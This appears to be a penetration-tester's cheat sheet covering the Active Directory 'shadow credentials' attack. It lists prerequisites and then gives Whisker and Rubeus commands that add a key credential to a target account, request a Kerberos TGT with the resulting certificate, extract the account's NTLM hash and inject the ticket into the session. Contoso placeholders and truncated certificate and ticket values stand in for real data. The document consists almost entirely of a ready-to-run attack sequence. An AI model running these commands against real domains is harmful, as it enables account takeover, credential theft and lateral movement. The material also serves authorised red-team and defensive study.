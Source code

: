 # Methodology
>1. User with GenericAll/GenericWrite on `msDS-KeyCredentialLink` (Key Admins and Enterprise Key Admins have it by default).
>2. Enumerate if the DC is atleast Windows 2016

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## Whisker
**Add shadow credential:**
```cmd
Whisker.exe add /target:supportXuser
```

**Request the TGT by leveraging the certificate:** 
```cmd
# Retrieve NTLM hash
Rubeus.exe asktgt /user:supportXuser /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW.... /password:"1OT0qAom3..." /domain:us.contoso.local /dc:US-DC.us.contoso.local /getcredentials /show /nowrap

# Pass the ticket
Rubeus.exe asktgt /user:supportXuser /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW.... /password:"1OT0qAom3..." /domain:us.contoso.local /dc:US-DC.us.contoso.local /getcredentials /show /nowrap /ptt
```

**Inject the TGT in the current session or use the NTLM hash:**
```cmd
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```